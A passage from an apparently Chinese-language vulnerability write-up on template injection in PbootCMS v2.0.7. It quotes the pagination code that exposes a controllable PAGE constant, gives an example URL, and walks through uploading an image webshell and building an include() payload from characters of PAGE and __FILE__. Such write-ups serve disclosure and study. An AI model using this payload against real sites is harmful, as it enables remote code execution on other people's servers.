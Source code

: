             // 获取当前页面
            $this->page = $this->page();

            // 定义相关常量，用于方便模板引擎解析序号等计算和调用
            define('ROWTOTAL', $this->rowTotal);
            define('PAGECOUNT', $this->pageCount);
            define('PAGE', $this->page);
            define('PAGESIZE', $this->pageSize);

            // 注入分页模板变量
            $this->assign($morePageStr);

            // 返回限制语句
            return ($this->page - 1) * $this->pageSize + ($this->start - 1) . ",$this->pageSize";
        } 
      // 当前页码容错处理
        private function page(){
            $page = get('page', 'int') ?: $this->page;
            if (is_numeric($page) && $page > 1) {
                if ($page > $this->pageCount && $this->pageCount) {
                    return $this->pageCount;
                } else {
                    return $page;
                }
            } else {
                return 1;
            }
        }
      ...
    ?>

这里是该程序的一个分页类，可以看到里面有一个叫`PAGE`的常量，且该常量可控。

那么就寻找调用了这个分页类的地方传入`page`就好。

例如：`http://www.0-sec.org/?keyword=123&page=0123456789`

![](./resource/PbootCMSv2.0.7模板注入/media/rId31.png)

且该常量为string类型。

至此，路径中需要的字符都构造出来了，只需要用`.`连接即可。

### 漏洞复现

1.  上传图片马

![](./resource/PbootCMSv2.0.7模板注入/media/rId33.png)

1.  得到路径`static/upload/image/20200417/1587111957160139.png`

2.  根据路径构造payload

-   `include(s.tatic.array(__FILE__)[0][0].upload.array(__FILE__)[0][0].image.array(__FILE__)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][0].array(PAGE)[0][4].array(PAGE)[0][1].array(PAGE)[0][7].(马赛克).png)`
